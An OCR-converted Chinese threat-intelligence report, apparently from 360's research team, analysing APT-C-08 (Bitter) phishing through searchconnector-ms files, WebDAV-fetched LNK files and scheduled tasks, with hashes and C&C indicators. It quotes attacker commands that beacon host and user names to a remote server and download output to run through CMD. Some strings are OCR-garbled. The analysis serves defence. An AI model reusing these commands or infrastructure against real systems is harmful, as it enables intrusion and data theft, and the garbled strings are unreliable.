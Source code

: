 # APT-C-08（蔓灵花）组织WebDAV行动分析  

原创高级威胁研究院360威胁情报中心2024年10月21日18:10北京  

# APT-C-08  

# 蔓灵花  

APT-C-08（蔓灵花）组织是一个拥有南亚地区政府背景的APT组织，近几年来持续对南亚周边国家进行APT攻击，攻击目标涉及政府、军工、高校和驻外机构等企事业单位组织。  

近期360安全大脑监测到多起通过searchconnector-ms文件结合诱饵话题的钓鱼攻击活动，邮件附件压缩包内携带恶意searchconnector-ms样本文件，诱导用户打开。Searchconnector-ms文件可看作是一个定义指定Windows搜索的位置、查询、结果等操作的描述性文件。打开该文件，Windows将从该文件描述的指定的位置找到目标文件。通过对攻击者所使用的技战术和相关资源进一步分析，确认为蔓灵花组织发起的钓鱼攻击。  

## 一、攻击流程  

蔓灵花组织将searchconnector-ms文件作为初始访问阶段攻击载荷，当用户打开该文件后，将通过WebDAV服务远程获取后续攻击载荷，其通常为带有恶意LNK文件或是CHM文件的压缩包。当用户再次打开恶意LNK文件或是CHM文件时，将创建计划任务，周期性的向服务器回传信息并下发后续攻击组件。  

其攻击流程图如下图1-1所示:  

![](https://cdn-mineru.openxlab.org.cn/extract/7c9be677-f3c5-490c-9759-953e7725ce3c/fdf81147bf8bd13fd599c3b97e17183467983fccd983944c8647e07a09c846de.jpg)  
图1-1 攻击流程  

## 二、详细分析  

https:/mp.weixin.q.com/s/kkI0jh14M9DtDGtSGQ4gag  

### 1.样本分析  

在本此行动中，我们捕获到了一批蔓灵花组织所使用的searchconnector-ms文件样本，如下图1-2、1-3、1-4所示:  

![](https://cdn-mineru.openxlab.org.cn/extract/7c9be677-f3c5-490c-9759-953e7725ce3c/ea08853a77e45f9788b2d0c468412b95962cfc3c04dd6b07385b7da07a7d1bbc.jpg)  
图1-2 searchconnector-ms样本1  

![](https://cdn-mineru.openxlab.org.cn/extract/7c9be677-f3c5-490c-9759-953e7725ce3c/d2fcdf5ea22d903b6c6502db733006a838152798c6b620cf03667d68cc959006.jpg)  
图1-3 searchconnector-ms样本2  

![](https://cdn-mineru.openxlab.org.cn/extract/7c9be677-f3c5-490c-9759-953e7725ce3c/3bb75714ce438026be72c2989f7a34fa59447e60cf99fd412c22a07648d136d9.jpg)  
图1-4 searchconnector-ms样本3  

以图1-2样本为例，在该样本中，URL元素中指定了远程地址：http://94.156.175[.]95/res/sys32/，当用户打开该searchconnector-ms文件时，将通过WebDAV访问远程资源并显示。  

![](https://cdn-mineru.openxlab.org.cn/extract/7c9be677-f3c5-490c-9759-953e7725ce3c/a7f755402b733155cb2531dc12417f24fdc479a15d7e369019ef24508d30a075.jpg)  

该文件URI为：\\94.156.175.95\DavWwWRoot\res\sys32\Document.lnk。同时，在用户打开该searchconnector-ms文件时，会触发命令执行：  

rundl132.exe   
C:\wINDowS\system32\davclnt.dll,DavSetCookie   
94.156.175[.]95  

http://94.156.175[.]95/res/sys32/Document.1nk  

当使用再次打开远程LNK文件Document.lnk时，该文件将会执行如下操作：  

创建计划任务BI0SDriverUpdateRoutine，每15分钟执行一次，其指向内容为一段Powershell脚  

上述Powershell脚本将会执行curl从远端地址fizzillacottages.com/nft.php?1t=%computername%_%username%下载资源到C:\Users\public\documents\er.log。  

通过more读取C:\Users\public\documents\er.log传递给CMD执行。  

![](https://cdn-mineru.openxlab.org.cn/extract/7c9be677-f3c5-490c-9759-953e7725ce3c/804c3c698bb33fcc2afcb8f88f2fd18b31764469b783b025eb2b2afac4b0ead4.jpg)  
图1-5LNK样本中携带命令行  

### 2.技战术变化  

与历史相比，在本次WebDAV行动中，不再采取直接投递带有LNK的压缩包作为初始访问阶段攻击载荷，而采取投递如searchconnector-ms等具有远程指向与访问能力的文件（同一特性的还有.url文件），诱导用户打开此类文件后，通过WebDAV远程拉取伪装成文档的恶意LNK文件，再次诱导用户打开该LNK文件后，通过恶意LNK文件执行命令创建计划任务周期性从远端下载后续攻击载荷并执行。  

通过此种方式，用户打开searchconnector-ms文件访问远程目标文件时，该文件通过WebDAv协议传输给目标用户，并不会在目标机器中落地。当用户再次打开其目标文件时，通过WebDAV协议访问URI形如：\\\DavWWWRoot\的资源，并执行该目标文件，具有较强的隐蔽性。  

同时，由于蔓灵花组织在服务器构建上使用了错误的配置导致可以直接访问到该服务器上其他资源，如下图1-6所示：  

![](https://cdn-mineru.openxlab.org.cn/extract/7c9be677-f3c5-490c-9759-953e7725ce3c/4eed2c3bc81b850187a0311d87f4b4b75b5a838d3efce979f7d07c162e42fcb3.jpg)  

![](https://cdn-mineru.openxlab.org.cn/extract/7c9be677-f3c5-490c-9759-953e7725ce3c/4951e9dc6be6e10f57dccc7aa9f37f7068e372d19567b0c7cd446d0680574330.jpg)  
图1-6 蔓灵花组织服务器上其他资源  

## 三、湖源分析  

蔓灵花组织在原有攻击流程上进行了些许改进，但在回传URL格式方面依然与历史高度相似。  

在历史攻击活动中，我们发现一起通过投递带有CHM文件的压缩包附件作为初始访问阶段攻击载荷的攻击活动，从CHM文件中解密出执行命令如图1-7下所示：  

![](https://cdn-mineru.openxlab.org.cn/extract/7c9be677-f3c5-490c-9759-953e7725ce3c/9fcf0d274346d98e5a1bf9e74f08928a9657a353458091e9655fd389429f1f64.jpg)  
图1-7蔓灵花组织历史行动中使用的命令行  

可以看出，这两次攻击活动中的回传URL格式一致，同时在历史的攻击活动中我们获取到了后续执行的信息收集类脚本，如下图1-8所示：  

![](https://cdn-mineru.openxlab.org.cn/extract/7c9be677-f3c5-490c-9759-953e7725ce3c/32e61b2d04dbcb5ec027dfdd07c2665d3f31a8555c2ae54ee4a9f6185782d4a6.jpg)  
图1-8蔓灵花组织历史行动中使用的命令行  

可以看到本次使用的URL格式与历史蔓灵花回传URL格式一致，即都是将当前主机名、用户名回传到远端服务器上，其中主机名与用户名之间用’_’分割，这也符合蔓灵花组织习惯。  

## 四、防范排查建议  

基于对本次报告中提到的攻击流程进行分析，我们认为可以从以下几个方向排查设备是否存在被感染的痕迹：  

1.排查邮箱中是否存在携带了searchconnect-ms文件为附件的邮件；  
2.排查设备是否存在与相关C&C服务器通联记录。  

# Hash:  

7d719c86b16f5d38d3ee2fa620dee222   
1004f29ebe78873045c33320fa951fb5   
da8901bae3609684ddb9f5b881822234   
be10635bc9294580033ac94964179a53   
0ba559947a8ac9f1acf2e855c1a343e3   
386c603710c4fbab465ad54a91a575d1   
76871728d19535235a43557669f06a79  

# C&C、URL:  

94.156.175[.]95   
47.245.111[.]83   
http://94.156.175[.]95/res/sys32/   
http: //47.245.111[.]83/docx   
http: //fizzillacottages[. ]com/nft.php   
http://ottawadesignlab[.]com/res/0/   
http: //ottawadesignlab[. Jcom/res/Note/   
http: //pdcunaco[. Jcom/ZZ/bv. php   
https: //pdcunaco[. Jcom/ZZ/bv. php  

# 团队介绍  

TEAM INTRODUCTION  

# 360高级威胁研究院  

360高级威胁研究院是360政企安全集团的核心能力支持部门，由360资深安全专家组成，专注于高级威胁的发现、防御、处置和研究，曾在全球范围内率先捕获双杀、双星、噩梦公式等多起业界知名的0day在野攻击，独家披露多个国家级APT组织的高级行动，赢得业内外的广泛认可，为360保障国家网络安全提供有力支撑。  

#APT133 #南亚地区42#APT-C-08蔓灵花7  

APT·目录三  
